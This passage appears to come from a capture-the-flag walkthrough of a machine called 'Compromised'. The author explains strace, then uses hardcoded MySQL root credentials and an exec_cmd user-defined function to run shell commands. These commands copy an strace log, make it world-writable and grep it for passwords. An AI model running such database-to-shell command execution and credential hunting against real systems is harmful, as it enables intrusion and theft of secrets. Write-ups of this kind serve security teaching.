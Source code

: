 ![](assets/img/Compromised/10000000000002D400000235A1F26590088EF2A5.png)

**Strace** is a program used in program reversing in order to show all system calls executed for the program that is being executed. Hence, the `strace-log.dat` could hide some tasty information. Thus, I made a copy of the file with all permissions so I can use grep to find some redentials.

```bash
mysql -u root -p'changethis' mysql -e "select exec_cmd('cp strace-log.dat bash.txt') from mysql.func"
mysql -u root -p'changethis' mysql -e "select exec_cmd('chmod 777 bash.txt') from mysql.func"
grep password bash.txt
```

![](assets/img/Compromised/1000000000000494000000F056E9604EFDE4AD65.png)
